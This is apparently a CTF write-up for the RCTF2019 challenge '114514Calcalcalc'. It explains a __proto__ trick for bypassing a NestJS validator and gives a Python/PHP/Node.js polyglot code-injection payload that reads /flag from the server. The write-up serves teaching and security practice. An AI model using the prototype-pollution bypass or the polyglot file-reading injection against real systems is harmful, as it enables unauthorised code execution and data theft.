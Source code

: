 114514Calcalcalc
=====================

This challenge is built by RicterZ(http://github.com/ricterz), rrtql!!!

## Writeup

Read this after RCTF2019 solution.

### Part 1

https://github.com/nestjs/nest/commit/b3f51cc9c110017ebc8f6ec12da6b92d96f37caa#diff-11537d189f48488671d5be4d1c5daffeR97

Use ``__proto__`` to bypass the validator.

### Part 2

Polyglot time.

In RCTF2018, we released ``cats`` and ``cats Rev.2``, you can name this challenge as ``cats Rev.3``. A new defense technology Cyber Mimic Defense (CMD) was proposed in 2018. We think it is interesting to create a polyglot challenge based on this idea. So it's polyglot time now.

Python 3:

```python
open('/flag').read() + str(1//5) or ''' #
)//?>
function open(){return {read:()=>require('fs').readFileSync('/flag','utf-8')}}function str(){return 0}/*<?php
function open(){echo json_encode(['ret' => file_get_contents('/flag').'0']);exit;}?>*///'''
  ```

PHP:

```php
return open('/flag').read() + str(1//5) or ''' #
)//?>function open(){return {read:()=>require('fs').readFileSync('/flag','utf-8')}}function str(){return 0}/*<?php
function open(){echo json_encode(['ret' => file_get_contents('/flag').'0']);exit;}?>*///''';
```

Nodejs:

```javascript
open('/flag').read() + str(1//5) or ''' #
)//?>
function open(){return {read:()=>require('fs').readFileSync('/flag','utf-8')}}function str(){return 0}/*<?php
function open(){echo json_encode(['ret' => file_get_contents('/flag').'0']);exit;}?>*///'''
```
